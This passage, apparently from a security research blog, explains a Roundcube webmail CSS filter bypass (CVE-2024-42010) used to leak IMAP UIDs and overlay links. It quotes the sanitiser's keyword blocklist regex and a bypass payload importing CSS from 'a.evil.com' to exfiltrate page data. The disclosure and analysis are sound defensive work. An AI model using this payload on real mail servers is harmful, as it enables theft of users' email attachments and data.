 

As seen above, attachment links have a simple format. They contain the IMAP UID, folder, and MIME part number to identify the attachment. Usually, the folder is called "INBOX" and the part number is 2, with part 1 being the HTML body of the email. So an attacker only needs to guess or leak the UID somehow, as a victim probably would not click on hundreds of links with different UID values.



In our other blog posts about web mailers like ProtonMail, we have seen that CSS in the email body can be abused to leak attribute values on the current page. An attacker can try the same with Roundcube to leak the UID, which is part of a link on the page.

CSS Filter Bypass (CVE-2024-42010)
The main prevention against CSS leaks in Roundcube is not a CSP, but only a regex-based blocklist filter on the CSS text. The mod_css_styles() function tries to detect dangerous functions or rules, including url() or @import which can make connections to a remote server. String blocklists are often bypassed by abusing the syntax rules of the language, for example, comments or whitespace. That is probably why Roundcube deletes all characters except a-z(:; before performing some of the blocklist checks. 

```
public static function mod_css_styles($source, $container_id, $allow_remote = false, $prefix = '')
{        
  // ...
  $stripped = preg_replace('/[^a-z\(:;]/i', '', $source);
  $evilexpr = 'expression|behavior|javascript:|import[^a]' . 
      (!$allow_remote ? '|url\((?!data:image)' : '');
  if (preg_match("/{$evilexpr}/i", $stripped)) {
    return '/* evil! */';
  }
  // ...
}
```


To block @import rules, the word import is blocked, except when it is followed by an a to avoid blocking the valid !important keyword. This interesting regex can be bypassed, precisely because it is operating on the stripped version of the CSS, not the full CSS. An attacker can simply choose a domain name for their server that starts with an a and trick the check into seeing importa, which is allowed.

```
regex:    import[^a]
input:    @import "//a.evil.com/leak"
stripped: importaevilcomleak
```


After the blocklist check, the original unstripped CSS is used for rendering the email. The smuggled @import can now import arbitrary unfiltered CSS to leak the UID from an attribute on the page using the known import-based CSS leak technique.



With the same CSS filter bypass, the attacker can add styles that make a link in the email very large and overlay other elements. For demonstration purposes, we have colored this overlaid link in red:
